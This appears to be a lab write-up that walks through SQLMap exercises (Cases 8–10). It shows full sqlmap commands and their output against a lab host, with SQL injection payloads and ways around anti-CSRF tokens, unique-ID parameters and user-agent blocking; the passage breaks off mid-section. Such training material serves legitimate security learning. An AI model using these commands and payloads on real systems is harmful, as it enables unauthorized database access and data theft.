








## Exercises

### Question 1 — What's the contents of table flag8? (Case #8)

Case #8 was titled "Case8 - anti-CSRF token bypass" and said it detects and exploits an SQLi vulnerability in POST parameter `id`, while taking care of the anti-CSRF protection, noting a non-standard token name was used.



Pressed Submit and used Copy as cURL from the Network panel to grab the full POST request, which revealed the token parameter was named `t0ken`.



The question's hint pointed at specifying the token name, so `--csrf-token="t0ken"` was supplied, matching the non-standard name seen in the request data:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap  'http://154.57.164.66:38061/case8.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://154.57.164.66:38061' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.66:38061/case8.php' \
  -H 'Cookie: PHPSESSID=qth1vqe7bf07jvkjep21k7fdf6' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'id=1*&t0ken=LefKohTty90CKm7vIZctU37m0LjpjwF0gZg7j0n4' \
--batch --dump -T flag8 --csrf-token="t0ken" --flush-session
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.10.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:52:07 /2026-10-25/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[10:52:07] [INFO] flushing session file
[10:52:07] [INFO] testing connection to the target URL
[10:52:07] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:52:07] [INFO] testing if the target URL content is stable
[10:52:08] [INFO] target URL content is stable
[10:52:08] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[10:52:08] [INFO] (custom) POST parameter '#1*' appears to be dynamic
[10:52:08] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be SQL injectable
[10:52:08] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[10:52:08] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:52:08] [INFO] (custom) POST parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Rice")
[10:52:10] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
—SNIP—
[10:52:12] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[10:52:22] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[10:52:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:52:33] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[10:52:33] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:52:33] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:52:33] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:52:33] [INFO] target URL appears to have 6 columns in query
[10:52:33] [WARNING] reflective value(s) found and filtering out
[10:52:33] [INFO] (custom) POST parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 6892=6892&t0ken=LefKohTty90CKm7vIZctU37m0LjpjwF0gZg7j0n4

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#&t0ken=LefKohTty90CKm7vIZctU37m0LjpjwF0gZg7j0n4

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5676 FROM (SELECT(!SLEEP(5)))MxBM)&t0ken=LefKohTty90CKm7vIZctU37m0LjpjwF0gZg7j0n4

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=1 UNION ALL SELECT CONCAT(0x716b6b6271,0x6764634871476a446e4f46767750625077674a6c524d776b6243736e755754725a44546d7a777878,0x71787a7671),NULL,NULL,NULL,NULL,NULL-- -&t0ken=LefKohTty90CKm7vIZctU37m0LjpjwF0gZg7j0n4
---
[10:52:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:52:34] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:52:34] [INFO] fetching current database
[10:52:34] [INFO] fetching columns for table 'flag8' in database 'testdb'
[10:52:34] [INFO] fetching entries for table 'flag8' in database 'testdb'
Database: testdb
Table: flag8
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[10:52:34] [INFO] table 'testdb.flag8' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66/dump/testdb/flag8.csv'
[10:52:34] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66'

[*] ending @ 10:52:34 /2026-10-25/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://154.57.164.66:38061/case8.php'` is the target URL
- `-X POST` forces the request method to POST
- `-H '...'` flags replicate the headers the browser originally sent, including the session cookie
- `--data-raw 'id=1*&t0ken=LefKohTty90CKm7vIZctU37m0LjpjwF0gZg7j0n4'` sends the POST body, with `*` marking the injection point in `id` and the original token value included as a starting point
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--dump` dumps the content of the specified table
- `-T flag8` specifies the `flag8` table
- `--csrf-token="t0ken"` names the token parameter, so SQLMap automatically parses a fresh token out of each response and uses it on the next request
- `--flush-session` discards any previously stored session data, forcing a fresh run

As a whole, supplying `--csrf-token` with the correct, non-standard parameter name let SQLMap keep the anti-CSRF token valid across its hundreds of test requests, where it would otherwise have been rejected after the very first one.

**Answer:** `—REDACTED—`

### Question 2 — What's the contents of table flag9? (Case #9)

Case #9 was titled "Case9 - Unique ID" and said it detects and exploits an SQLi vulnerability in GET parameter `id`, while taking care of the unique `uid` parameter.



Clicked through and used Copy as cURL on the resulting request, which showed the URL as `case9.php?id=1&uid=2453509806`.



The question's hint pointed at specifying the parameter to randomize, so `--randomize=uid` was supplied:

#### First Attempt: Column Enumeration Failed

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap  'http://154.57.164.66:38061/case9.php?id=1*&uid=2453509806' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.66:38061/case9.php' \
  -H 'Cookie: PHPSESSID=qth1vqe7bf07jvkjep21k7fdf6' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump -T flag9 --randomize=uid --flush-session 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.10.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:56:25 /2026-10-25/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[10:56:26] [INFO] flushing session file
—SNIP—
sqlmap identified the following injection point(s) with a total of 73 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://154.57.164.66:38061/case9.php?id=1 AND 5620=5620&uid=2453509806

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://154.57.164.66:38061/case9.php?id=1;SELECT SLEEP(5)#&uid=2453509806

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://154.57.164.66:38061/case9.php?id=1 AND (SELECT 5259 FROM (SELECT(!SLEEP(5)))zgPg)&uid=2453509806

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: http://154.57.164.66:38061/case9.php?id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a6b7671,0x66467443717a4e77686c6a4c69587948447a757448667a667464704c4a4864576e636a545a76456b,0x71786b7071)-- -&uid=2453509806
---
[10:56:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:56:49] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:56:49] [INFO] fetching current database
[10:56:49] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries)
[10:56:49] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[10:56:49] [INFO] retrieved: testdb
[10:56:51] [INFO] fetching columns for table 'flag9' in database 'testdb'
[10:56:51] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[10:56:51] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[10:56:51] [WARNING] unable to retrieve column names for table 'flag9' in database 'testdb'
do you want to use common column existence check? [y/N/q] N
[10:56:51] [WARNING] unable to enumerate the columns for table 'flag9' in database 'testdb'
[10:56:51] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66'

[*] ending @ 10:56:51 /2026-10-25/
```

The injection point was found and confirmed, but column enumeration failed outright, with SQLMap itself suggesting `--no-cast` or `--hex` as next steps.

#### Second Attempt: Added --no-cast

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap  'http://154.57.164.66:38061/case9.php?id=1*&uid=2453509806' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.66:38061/case9.php' \
  -H 'Cookie: PHPSESSID=qth1vqe7bf07jvkjep21k7fdf6' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump -T flag9 --randomize=uid --no-cast                
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.10.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:58:12 /2026-10-25/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[10:58:12] [INFO] resuming back-end DBMS 'mysql' 
[10:58:12] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://154.57.164.66:38061/case9.php?id=1 AND 8146=8146&uid=2453509806

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://154.57.164.66:38061/case9.php?id=1;SELECT SLEEP(5)#&uid=2453509806

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://154.57.164.66:38061/case9.php?id=1 AND (SELECT 8666 FROM (SELECT(!SLEEP(5)))HkRM)&uid=2453509806

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: http://154.57.164.66:38061/case9.php?id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162787871,0x74427074686a5761644a7544446c686671544958614c7a554e647970537241446a56697a777a6a44,0x716b627a71)-- -&uid=2453509806
---
[10:58:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:58:12] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:58:12] [INFO] fetching current database
[10:58:12] [INFO] fetching columns for table 'flag9' in database 'testdb'
[10:58:12] [INFO] fetching entries for table 'flag9' in database 'testdb'
Database: testdb
Table: flag9
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[10:58:12] [INFO] table 'testdb.flag9' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66/dump/testdb/flag9.csv'
[10:58:12] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66'

[*] ending @ 10:58:12 /2026-10-25/
```

**Breakdown of what changed:**

- `--no-cast` disables SQLMap's internal value casting during retrieval, letting the column enumeration succeed where it had failed outright before

With the stored session resumed and `--no-cast` added, the column names resolved correctly and the dump completed cleanly.

**Answer:** `—REDACTED—`

### Question 3 — What's the contents of table flag10? (Case #10)

Case #10 was titled "Case10 - Primitive protection" and said it detects and exploits an SQLi vulnerability in POST parameter `id`.



Pressed Submit and used Copy as cURL on the resulting request.



#### First Attempt: Worked Immediately, But For an Unintended Reason

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.66:38061/case10.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://154.57.164.66:38061' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.66:38061/case10.php' \
  -H 'Cookie: PHPSESSID=qth1vqe7bf07jvkjep21k7fdf6' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'id=1' --dump --batch -T flag10 --no-cast
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.10.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:05:23 /2026-10-25/

[11:05:23] [INFO] resuming back-end DBMS 'mysql' 
[11:05:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8028=8028

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1 AND EXTRACTVALUE(4883,CONCAT(0x5c,0x716b707a71,(SELECT (ELT(4883=4883,1))),0x717a7a6b71))

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 8001 FROM (SELECT(!SLEEP(5)))rYoA)

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b707a71,0x4b41576456516e504a4b6e5250525553526f6d68466259434157594764797a4c4273514c426b4f7a,0x717a7a6b71),NULL,NULL-- -
---
[11:05:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[11:05:23] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:05:23] [INFO] fetching current database
[11:05:23] [INFO] fetching columns for table 'flag10' in database 'testdb'
[11:05:23] [WARNING] potential permission problems detected ('command denied')
[11:05:23] [WARNING] reflective value(s) found and filtering out
[11:05:23] [INFO] fetching entries for table 'flag10' in database 'testdb'
Database: testdb
Table: flag10
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[11:05:23] [INFO] table 'testdb.flag10' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66/dump/testdb/flag10.csv'
[11:05:23] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66'

[*] ending @ 11:05:23 /2026-10-25/
```

This worked immediately with no special handling. However, the question's hint said to investigate why the page blocks SQLMap and then bypass that — this run never hit any such block, so it wasn't clear what the intended lesson actually was.

#### Investigating the Intended Block

Dropped the Copy as cURL headers entirely and ran a bare SQLMap command, to see what would happen without SQLMap's request looking like a real browser's:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap -u 'http://154.57.164.66:38061/case10.php' -X POST --data="id=1*" --batch --dump -T flag10 --no-cast 
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.10.9#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:07:31 /2026-10-25/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[11:07:31] [INFO] resuming back-end DBMS 'mysql' 
[11:07:31] [INFO] testing connection to the target URL
[11:07:31] [INFO] testing if the target URL content is stable
[11:07:31] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[11:07:31] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[11:07:31] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[11:07:31] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be SQL injectable
[11:07:31] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
—SNIP—
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[11:07:35] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:07:35] [WARNING] (custom) POST parameter '#1*' does not seem to be injectable
[11:07:35] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 11:07:35 /2026-10-25/
```

This confirmed the actual block: without a browser-like `User-Agent`, the page refused to respond usefully at all, and SQLMap's `[CRITICAL]` message explicitly suggested `--random-agent` as one of the fixes. This explained why the Copy as cURL version had worked without any special handling — cURL had already carried over a real Linux Firefox `User-Agent` from the browser, so the block was never actually triggered in that first attempt.

#### Bypassing the User-Agent Block

```shell
┌──(—REDACTED—㉿kali)-[~]
